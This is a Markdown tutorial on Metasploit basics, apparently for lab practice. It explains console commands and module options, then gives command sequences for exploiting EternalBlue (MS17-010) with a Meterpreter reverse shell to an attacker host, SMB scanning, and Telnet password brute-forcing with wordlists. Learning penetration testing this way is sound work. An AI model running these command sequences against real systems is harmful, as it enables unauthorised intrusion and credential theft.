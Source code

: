 # Metasploit - basics

##  Introduction
Metasploit is the most powerful penetration testing framework, used for **finding, exploiting, and maintaining access** to vulnerable systems. 

---

##  **Getting Started with Metasploit**
###  **Launching the Metasploit Console**
```bash
msfconsole
```
**Starts the Metasploit Framework.**  
- Upon launching, you’ll see the Metasploit banner and stats (e.g., number of exploits, payloads, post modules, etc.).
- The prompt will change to:
  ```
  msf6 >
  ```
- Metasploit supports some **Linux commands** (`ls`, `pwd`) but lacks full shell functionality (`> redirection` isn’t available).

###  **Key Navigation Commands**
| Command | Description |
|---------|------------|
| `help` | Lists all available Metasploit commands. |
| `exit` | Closes Metasploit. |
| `version` | Displays the current Metasploit version. |
| `history` | Shows a list of previously executed commands. |
| `back` | Exits a module and returns to the main console. |

---

##  **Finding and Selecting Modules**
Metasploit modules include **exploits, scanners, payloads, and post-exploitation tools**. 

###  **Searching for Modules**
```bash
search ms17-010
```
 **Finds modules related to MS17-010 (EternalBlue).**  
- The output includes:
  - **Module number** (e.g., `#2`)
  - **Module path** (e.g., `exploit/windows/smb/ms17_010_eternalblue`)
  - **Reliability rank** (e.g., `excellent` or `manual`)

🔹 **Filter Results by Type or Platform:**
```bash
search type:exploit platform:windows
```
 **Lists all Windows-based exploits.**

### **Selecting a Module**
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
**Loads the EternalBlue exploit.**
- The prompt will change to:
  ```
  msf6 exploit(windows/smb/ms17_010_eternalblue) >
  ```

---

##  **Configuring Exploit Options**
###  **Viewing Required Parameters**
```bash
show options
```
 **Lists required and optional parameters.**

| Parameter | Description |
|-----------|-------------|
| `RHOSTS` | Target IP Address (must be set). |
| `RPORT` | Target Port (default: 445 for SMB). |
| `LHOST` | Attacker’s IP Address (used for reverse shells). |
| `LPORT` | Attacker’s Port (default: 4444). |

###  **Setting Module Parameters**
```bash
set RHOSTS 10.10.12.229
set LHOST 10.10.44.70
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
 **Configures the target, attacker IP, and payload.**

🔹 **Setting Global Options:**
```bash
setg LHOST 10.10.44.70
```
 **Applies `LHOST` across all modules until changed.**

---

##  **Executing an Exploit**
```bash
exploit
```
 **Runs the exploit against the target.**
- If successful, opens a **Meterpreter shell:**
  ```
  meterpreter >
  ```
- If unsuccessful, check error messages and reconfigure options (`set`, `check`).

🔹 **Running in Background:**
```bash
exploit -z
```
 **Runs the exploit and backgrounds the session immediately.**

🔹 **Checking Target Vulnerability Before Exploiting:**
```bash
check
```
 **Tests if the target is vulnerable without launching the attack.**

---

##  **Real-World Exploitation Examples**

###  **Example 1: Exploiting MS17-010 (EternalBlue) on Windows 7**
```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.12.229
set LHOST 10.10.44.70
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```
 **Objective:** Gain a Meterpreter shell on a vulnerable Windows 7 machine.

---

###  **Example 2: Scanning & Exploiting SMB with Database**
```bash
systemctl start postgresql
msfdb init
msfconsole
db_nmap -sV -p- 10.10.138.32
services -S microsoft-ds
use auxiliary/scanner/smb/smb_ms17_010
hosts -R
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.138.32; set LHOST 10.10.44.70
exploit
```
 **Objective:** Scan for SMB vulnerabilities, save to the database, and exploit MS17-010.

---

###  **Example 3: Port Scanning & Telnet Brute Force**
```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.10; set PORTS 1-100
run
search type:auxiliary telnet
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 10.10.10.10; set RPORT 23
set USER_FILE /usr/share/wordlists/users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```
 **Objective:** Scan for open Telnet ports and brute-force weak credentials.

---


